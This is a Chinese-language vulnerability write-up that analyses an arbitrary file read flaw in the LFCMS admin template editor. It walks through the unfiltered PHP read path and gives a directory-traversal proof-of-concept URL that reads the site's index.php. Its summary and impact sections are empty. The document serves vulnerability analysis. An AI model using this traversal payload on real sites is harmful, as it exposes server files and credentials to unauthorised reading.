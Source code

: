 LFCMS 后台任意文件读取漏洞
==========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

漏洞起始点位于`/Application/Admin/Controller/TemplateController.class.php`中的`edit`方法，该方法用作后台模板编辑，关键代码如下![1.png](./.resource/LFCMS后台任意文件读取漏洞/media/rId24.png)

我们传入的路径需要将`/`替换为`*`接着调用了`read`方法，跟进该方法

    public function read($filename,$type=''){
          return $this->get($filename,'content',$type);
    }

继续跟进get方法

    public function get($filename,$name,$type='') {
        if(!isset($this->contents[$filename])) {
            if(!is_file($filename)) return false;
            $this->contents[$filename]=file_get_contents($filename);
        }
        $content=$this->contents[$filename];
        $info   =   array(
                    'mtime'     =>  filemtime($filename),
                    'content'   =>  $content
                );
        return $info[$name];
    }
    }

该方法中返回了要读取的文件内容，可以看到在整个流程中没有对传入参数`path`的过滤，导致我们可以跨目录读文件，下面来验证一下，尝试读取一下跟目录`index.php`文件，测试链接如下

    http://www.0-sec.org/admin.php?s=/Template/edit/path/*..*index.php

![2.png](./.resource/LFCMS后台任意文件读取漏洞/media/rId25.png)

成功的读到了`CMS`的入口文件

参考链接
--------

> https://xz.aliyun.com/t/7844\#toc-4
